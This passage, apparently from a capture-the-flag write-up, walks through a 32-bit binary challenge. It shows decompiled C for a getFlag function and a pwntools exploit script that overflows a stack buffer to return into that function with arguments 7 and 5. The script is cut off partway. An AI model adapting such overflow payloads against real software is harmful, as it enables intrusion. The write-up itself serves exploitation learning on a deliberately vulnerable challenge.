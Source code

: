 * And here's the disassembly of `getFlag` function.

{% code title="getFlag.c" overflow="wrap" lineNumbers="true" %}
```c
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

undefined4 getFlag(int param_1,int param_2)

{
  undefined4 uVar1;
  char local_3c [48];
  FILE *local_c;

  // We've to pass this if statement!.
  if (param_1 * param_2 == 0x23) {
    local_c = fopen("flag.txt","r");
    if (local_c != (FILE *)0x0) {
      fgets(local_3c,0x30,local_c);
      puts(local_3c);
      fclose(local_c);
    }
    uVar1 = 0;
  }
  else {
    puts("Nope!");
    uVar1 = 0xffffffff;
  }
  return uVar1;
}
```
{% endcode %}

* In the disassembly of `getFlag` function, we've to pass if condition with multiply the value of `param_1` and `param_2`, so it will be equal to `0x23` (or 35 in decimal). We can do simple math, for example: `param_1` = **7** and `param_2` = **5**, so the output will be **35**.
* Here's my exploit script for this challenge.

{% code title="exploit.py" overflow="wrap" lineNumbers="true" %}
```python
#!/usr/bin/env python3
#filename: exploit.py

"""INFO:
- The binary is x86 (32 bit) architecture.
- The buffer size is 0x24 (36 Bytes) + 0x4 (4 Bytes) for EBP = 40 Bytes.
- All we've to do is just return to `getFlag` function.
"""

from pwn import *

context.binary = elf = ELF("./challenge.elf", checksec=0)
context.log_level = "debug"

# 1. Prepare the payload.
win_addr = p32(elf.symbols['getFlag'])

payload = b"A"*0x24 #----------------< Junk.
payload += b"B"*0x4 #----------------< Old EBP.
payload += win_addr #----------------< Buffer address.
payload += b"C"*0x4 #----------------< Stack alignment.
payload += p32(0x7) #----------------< Param 1 = 7.
payload += p32(0x5) #----------------< Param 2 = 5.

"""Payload from p0np0n
# Link: https://www.youtube.com/watch?v=8wn7ue68vmE
```